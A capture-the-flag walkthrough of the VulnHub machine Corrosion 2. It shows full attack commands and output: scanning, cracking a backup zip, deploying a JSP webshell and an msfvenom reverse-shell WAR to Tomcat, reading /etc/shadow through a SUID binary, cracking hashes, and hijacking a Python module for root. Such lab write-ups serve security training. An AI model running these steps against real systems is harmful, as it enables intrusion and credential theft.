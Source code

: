 
[https://www.vulnhub.com/entry/corrosion-2,745/](https://www.vulnhub.com/entry/corrosion-2,745/?ref=rootandbeer.com)

Corrosion 2 is a medium difficulty box that demonstrated various attack techniques and exploits, focusing on privilege escalation, file path traversal, and password cracking. The initial foothold was gained through a file path traversal vulnerability, which allowed access to sensitive files, including password hashes. These hashes were cracked, enabling further access. Exploiting SUID binaries was central to elevating privileges, with the `gawk` binary playing a key role in achieving root access. The challenge required understanding misconfigurations, leveraging binaries with elevated permissions, and carefully navigating access controls to achieve full system compromise. These techniques highlight the importance of patching common vulnerabilities and securing binaries to prevent unauthorized escalation.

**Run *[[Nmap]] -A* scan against all TCP ports:**

```bash
└─$ nmap -A -sC -p- 192.168.5.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 19:42 EDT
Nmap scan report for 192.168.5.114
Host is up (0.015s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6a:d8:44:60:80:39:7e:f0:2d:08:2f:e5:83:63:f0:70 (RSA)
|   256 f2:a6:62:d7:e7:6a:94:be:7b:6b:a5:12:69:2e:fe:d7 (ECDSA)
|_  256 28:e1:0d:04:80:19:be:44:a6:48:73:aa:e8:6a:65:44 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat 9.0.53
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.53
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.43 seconds
```

**Run [[Nikto]] scan on port 8080 to discover "*backup.zip*":**

```bash
└─$ nikto -timeout 2 -h http://192.168.5.114:8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.5.114
+ Target Hostname:    192.168.5.114
+ Target Port:        8080
+ Start Time:         2024-08-05 17:46:37 (GMT-7)
---------------------------------------------------------------------------
+ Server: No banner retrieved
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /backup.zip: Potentially interesting archive/cert file found.
+ /backup.zip: Potentially interesting archive/cert file found. (NOTE: requested by IP address).
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ OSVDB-3092: /readme.txt: This might be interesting...
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/status: Default Tomcat Server Status interface found
+ /host-manager/status: Default Tomcat Server Status interface found
+ 8069 requests: 0 error(s) and 16 item(s) reported on remote host
```

**Download *backup.zip*:**

```bash
└─$ wget http://192.168.5.114:8080/backup.zip -O backup.zip
```

**Crack zip file password with *[[fcrackzip]]* & *rockyou* password list:**

```bash
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
PASSWORD FOUND!!!!: pw == @administrator_hi5    
```

**Unzip *backup.zip* using password:**

```bash
└─$ unzip backup.zip                                                   
Archive:  backup.zip
[backup.zip] catalina.policy password: 
password incorrect--reenter: 
  inflating: catalina.policy         
  inflating: context.xml             
  inflating: catalina.properties     
  inflating: jaspic-providers.xml    
  inflating: jaspic-providers.xsd    
  inflating: logging.properties      
  inflating: server.xml              
  inflating: tomcat-users.xml        
  inflating: tomcat-users.xsd        
  inflating: web.xml   
```

**Find tomcat admin password in *tomcat-users.xml*:**

```bash
└─$ cat tomcat-users.xml | grep -i password
...
<user username="manager" password="melehifokivai" roles="manager-gui"/>
<user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>
```

>[!note]- Option 1: RCE via webshell
> ```bash
> └─$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
> zip -r backup.war cmd.jsp 
> ```
> On Tomcat Web Application Manager page, upload backup.war under "WAR file to deploy".
> 
> Your webshell will be here:
> [http://192.168.5.114:8080/backup/cmd.jsp](http://192.168.5.114:8080/backup/cmd.jsp?)

>[!note]- Option 2: RCE via msfvenom [[_MOCS/Reverse Shells]]
> ```bash
> └─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.5.10 LPORT=31337 -f war > shell.war
> ```
> On Tomcat Web Application Manager page, upload shell.war under "WAR file to deploy".
> 
> Click on WAR file in Tomcat after it finished uploading
> 
> Receive [[_MOCS/Reverse Shells]] via netcat:
> 
> ```bash
> └─$ nc -nvlp 31337
> listening on [any] 31337 ...
> connect to [192.168.5.10] from (UNKNOWN) [192.168.5.114] 42390
> ```


**Discover users "randy" and "jaye" in */etc/passwd:***

```bash
└─$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
...
randy:x:1000:1000:randy,,,:/home/randy:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
tomcat:x:1001:1001::/home/tomcat:/bin/sh
sshd:x:127:65534::/run/sshd:/usr/sbin/nologin
jaye:x:1002:1002::/home/jaye:/bin/sh
```

**Find *note.txt* in randy's home folder:**

```bash
└─$ cat /home/randy/note.txt

Hey randy this is your system administrator, hope your having a great day! I just wanted to let you know that I changed your permissions for your home directory. You won't be able to remove or add files for now.

I will change these permissions later on.

See you next Monday randy!
```

**Find user-level flag in randy's home folder:**

```bash
cat /home/randy/user.txt

ca73a018ae6908a7d0ea5d1c269ba4b6
```

**Reuse admin password from tomcat for user "jaye":**

```bash
└─$ ssh jaye@192.168.5.114
jaye@192.168.5.114's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.11.0-34-generic x86_64)
```

**Use look command (SUID as root) to pull the shadow file:**

```bash
jaye@corrosion:~/Files$ ./look '' /etc/shadow
root:$6$fHvHhNo5DWsYxgt0$.3upyGTbu9RjpoCkHfW.1F9mq5dxjwcqeZl0KnwEr0vXXzi7Tld2lAeYeIio/9BFPjUCyaBeLgVH1yK.5OR57.:18888:0:99999:7:::
...
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
systemd-coredump:!!:18886::::::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
sshd:*:18887:0:99999:7:::
jaye:$6$Chqrqtd4U/B1J3gV$YjeAWKM.usyi/JxpfwYA6ybW/szqkiI1kerC4/JJNMpDUYKavQbnZeUh4WL/fB/4vrzX0LvKVWu60dq4SOQZB0:18887:0:99999:7:::
```

**Crack the randy user password with John The Ripper and rockyou.txt password list:**

```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ./corrosion.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
                                                                                                                                 
07051986randy    (randy)                                                                                                                                                                                                                                                                                                    
1g 0:00:16:22 DONE (2024-08-05 22:02) 0.001018g/s 14186p/s 14186c/s 14186C/s 070624960..0702328                                                                                                                                                                                                                             
Use the "--show" option to display all of the cracked passwords reliably                                                                                                                                                                                                                                                    
Session completed.  
```

**Reconnect to SSH as randy:**

```bash
ssh randy@192.168.5.114
```

**Check for world-writeable files:**

```bash
$ find / -xdev \( -perm -0002 -a ! -perm -1000 \) -type f -print 2>&1 |grep -v "Permission denied"
/usr/lib/python3.8/base64.py
```

**Run `sudo -l` to discover randy can run randombase64.py as root:**

```bash
randy@corrosion:~$ sudo -l
[sudo] password for randy:
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```

**Create a python script (*/tmp/test.py*) that launches /bin/bash:**

```bash
# Importing required module
import os
 
os.system('/bin/bash')
```

**Overwrite */usr/lib/python3.8/base64.py* with our python script:**

```bash
cp /tmp/test.py /usr/lib/python3.8/base64.py
```

**Run *randombase64.py* as root:**

```bash
randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
root@corrosion:/home/randy# id
uid=0(root) gid=0(root) groups=0(root)
```

**Grab root flag:**

```bash
root@corrosion:/home/randy# cat /root/root.txt
2fdbf8d4f894292361d6c72c8e833a4b
```

